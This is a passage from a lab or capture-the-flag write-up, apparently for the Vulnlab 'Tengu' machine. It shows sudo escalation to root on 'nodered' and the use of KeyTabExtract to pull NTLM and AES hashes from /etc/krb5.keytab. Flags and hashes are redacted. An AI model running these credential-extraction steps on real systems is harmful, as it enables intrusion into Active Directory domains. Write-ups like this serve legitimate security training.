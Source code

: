 ## Pivoting nodered.tengu.vl

As always we started with some `basic enumeration` and found that `t2_m.winters` was part of the `linux_server_admins@tengu.vl` group.

```c
t2_m.winters@tengu.vl@nodered:~$ id
uid=1317801117(t2_m.winters@tengu.vl) gid=1317800513(domain users@tengu.vl) groups=1317800513(domain users@tengu.vl),1317801115(linux_server_admins@tengu.vl)
```

## Privilege Escalation to root

He also had permissions to execute `(ALL : ALL) ALL` with `sudo` which gave provided us `privilege escalation` to `root` and also the `first flag (Tengu_User-1)`.

```c
t2_m.winters@tengu.vl@nodered:~$ sudo -l
Matching Defaults entries for t2_m.winters@tengu.vl on nodered:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User t2_m.winters@tengu.vl may run the following commands on nodered:
    (ALL : ALL) ALL
```

```c
t2_m.winters@tengu.vl@nodered:~$ sudo su
root@nodered:/home/tengu.vl/t2_m.winters#
```

## root.txt (Tengu_User-1)

```c
root@nodered:~# cat root.txt
VL{REDACTED}
```

## Extracting Keys from keytab file

Now that we are gained `root` on `nodered.tengu.vl` we found a `krb5.keytab` file and used `KeyTabExtract` to extract the `NTLM` hash of `NODERED$`.

- [https://github.com/sosdave/KeyTabExtract](https://github.com/sosdave/KeyTabExtract)

```c
root@nodered:/dev/shm# python3 keytabextract.py /etc/krb5.keytab 
[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
        REALM : TENGU.VL
        SERVICE PRINCIPAL : NODERED$/
        NTLM HASH : REDACTED
        AES-256 HASH : REDACTED
        AES-128 HASH : REDACTED
```
